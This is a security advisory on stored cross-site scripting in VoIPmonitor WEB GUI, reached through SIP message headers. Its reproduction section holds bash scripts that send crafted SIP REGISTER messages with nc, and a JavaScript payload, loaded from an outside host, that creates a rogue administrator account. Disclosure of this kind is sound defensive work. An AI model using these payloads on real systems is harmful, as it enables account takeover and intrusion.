



# VoIPmonitor WEB GUI vulnerable to Cross-Site Scripting via SIP messages

- Fixed versions: VoIPmonitor WEB GUI 24.56
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-02-voipmonitor-gui-xss
- VoIPmonitor Security Advisory: none, changelog references fixes at https://www.voipmonitor.org/changelog-gui?major=5
- Tested vulnerable versions: 24.53, 24.54, 24.55
- References: CVE-2021-1000004
- Timeline:
    - Report date: 2021-02-10
	- Triaged: 2021-02-12
	- First fixes available: 2021-02-15
    - Fixes to actually address XSS: 2021-02-22
	- VoIPmonitor release with fix: 2021-02-22
	- Enable Security advisory: 2021-03-15

## Description

Multiple Cross-Site Scripting vulnerabilities were observed in the VoIPmonitor WEB GUI. These vulnerabilities can be exploited by sending SIP messages towards hosts monitored by VoIPmonitor. During our tests, the following areas were affected:

- "CDR" section
    - listing view via the `User-Agent`, `From` and `Call-ID` headers
    - Share CDR

- "Active calls" section
    - listing view via the `User-Agent` and `From` headers

- "SIP MESSAGES" section
    - listing view via the `User-Agent` and `From` headers
    - detailed record view via the `User-Agent`, `Call-ID` and `Content-Type` headers

- "SIP REGISTER" section
    - listing view via the `User-Agent` header, and `Authorization` username

- "SIP Opt., Subsc., Notify" section
    - listing view via the `User-Agent` header
    - detailed record view via `Call-ID` and caller name

- "Live sniffer" section
    - listing view via the `Call-ID`

## Impact

Abuse of this vulnerability allows attackers to perform operations on behalf of VoIPmonitor WEB GUI users, hijack sessions or create arbitrary administrative accounts in the WEB GUI.

Due to the nature of the cross-site scripting vulnerability, the attacker does not need authentication to exploit this vulnerability. However, to trigger the injected malicious JavaScript, an administrator has to visit to one of the GUI screens: "CDR", "SIP MESSAGES", "SIP REGISTER" or "SIP Opt., Subsc., Notify".

## How to reproduce the issue

In this section we will demonstrate how to abuse this vulnerability via the REGISTER message.

Run the following bash script, replacing the target (`demo.sipvicious.pro`) with the hostname/IP of a machine that is being monitored by VoIPmonitor:

```bash
payload="REGISTER sip:demo.sipvicious.pro SIP/2.0\r\n"
payload+="Via: SIP/2.0/UDP 192.168.1.119:46896;rport;branch=z9hG4bK-X\r\n"
payload+="Max-Forwards: 70\r\n"
payload+="From: <sip:002@demo.sipvicious.pro>;tag=ZB1fPjdIHA6RmaNw\r\n"
payload+="To: <sip:002@demo.sipvicious.pro>\r\n"
payload+="Call-ID: C15AfnWADaCSBH4O\r\n"
payload+="CSeq: 1 REGISTER\r\n"
payload+="Contact: <sip:002@192.168.1.119:48760;transport=udp>\r\n"
payload+="User-Agent: \r\n"
payload+="Content-Type: text/plain\r\n"
payload+="Content-Length: 0\r\n\r\n"
echo -e -n $payload | nc -u demo.sipvicious.pro 5060
```

Then browse to the "SIP REGISTER\failed" section and observe that an alert box with value `1` is shown.



To demonstrate a more complex and dangerous example, host the following JavaScript file on a public facing web server and name it `voipm-xss.js`.

```javascript
var username='h3x0r';
var password='h3x0r-l33t-passwd';

$.post('php/model/sql.php', {
    task: 'CREATE',
    module: 'user_admin',
    taskParams: JSON.stringify({
        "keyField": "id",
        "data": {
          "username": username,
          "name": username,
          "password": password,
          "delete2fa_sec": 0,
          "missing_sec": "not defined",
          "req_2fa": false,
          "email": "",
          "is_admin": true,
        }
      }),
    username: username ,
    name: username ,
    password: password ,
    delete2fa_sec: '0' ,
    email: '' ,
    is_admin: 'on' ,
    can_audit: '0' ,
    note: '' ,
    blocked_reason: '' ,
    max_bad_login_attempt: '' ,
    password_expiration_days: '' ,
    enable_login_ip: '' ,
    ip: '' ,
    number: '' ,
    domain: '' ,
    vlan: ''}
);
```

Then run the following bash script by replacing the script URL to the hosted JavaScript file:

```bash
JSURL="//h3x.fun/voipmonitor/xss.js"

payload='REGISTER sip:demo.sipvicious.pro SIP/2.0\r\n'
payload+='Via: SIP/2.0/UDP 192.168.1.119:46896;rport;branch=z9hG4bK-X\r\n'
payload+='Max-Forwards: 70\r\n'
payload+='From: <sip:002@demo.sipvicious.pro>;tag=ZB1fPjdIHA6RmaNw\r\n'
payload+='To: <sip:002@demo.sipvicious.pro>\r\n'
payload+='Call-ID: C15AfnWADaCSBH4O\r\n'
payload+='CSeq: 1 REGISTER\r\n'
payload+='Contact: <sip:002@192.168.1.119:48760;transport=udp>\r\n'
payload+='User-Agent: \r\n'
payload+='Content-Type: text/plain\r\n'
payload+='Content-Length: 0\r\n\r\n'
echo -e -n $payload | nc -u demo.sipvicious.pro 5060
```

Browse to the "SIP REGISTER\failed" screen, refreshing the listing if required, and browse to the "Users & Audit\Users" screen. Notice that a new user has been created.





Same exercise can be done against the other affected screens, including the CDR record listing.

## Solution and recommendations

To address this issue, we recommend upgrading to the latest fixed version of VoIPmonitor GUI.

We recommended the following to the vendor:

> Values that are user controlled should be correctly encoded before being rendered in the browser. Additionally, JSON output should have the `Content-Type` header of JSON rather than `text/html`.

> These vulnerabilities seem to exist throughout the whole web application so we suggest that a thorough exercise should be carried out to identify any other potential Cross-Site scripting issues in sections which have not been identified in our report.

## Acknowledgements

Enable Security would like to thank Martin Vit and the developers at VoIPmonitor for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

